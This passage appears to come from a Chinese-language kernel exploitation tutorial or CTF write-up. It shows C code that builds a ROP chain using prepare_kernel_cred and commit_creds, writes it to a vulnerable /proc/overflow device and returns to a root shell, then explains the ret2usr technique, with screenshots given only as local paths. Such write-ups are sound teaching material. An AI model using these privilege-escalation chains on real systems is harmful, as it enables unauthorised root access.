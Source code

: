```c
}

int main()
{   
    save_state();
    int stack;
    join_str("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
    join_data(prdi_ret);
    join_data(0);
    join_data(prepare_kernel_cred);
    join_data(rax2rdi_c_prbp_ret);
    join_data(&stack);
    join_data(commit_creds);
    join_data(swapgs_pfq);
    join_data(user_rflags);
    join_data(iretq);
    join_data(&get_shell);
    join_data(user_cs);
    join_data(user_rflags);
    join_data(&stack);
    join_data(user_ss);
    int fd = open("/proc/overflow", O_WRONLY);
    write(fd, payload, payload_len);
    return 0;
}
```

#### ret2usr

既然可以劫持返回地址，那么可以考虑将返回地址修改成用户程序的地址，那么就相当于以ring 0级别执行用户程序，进而直接提权

因此在用户程序中利用汇编写一段提权与返回用户态，则可以直接拿到root shell

覆盖内核函数返回地址为用户程序

![1580194333224](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580194333224.png)

用户程序中利用内联汇编写相应操作

![1580194496576](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580194496576.png)

布置好栈结构jmp去`swapgs`

![1580194553680](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580194553680.png)

执行到`iretq`

![1580194615577](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580194615577.png)

拿到root shell

![1580194700486](C:\Users\MoZha\AppData\Roaming\Typora\typora-user-images\1580194700486.png)
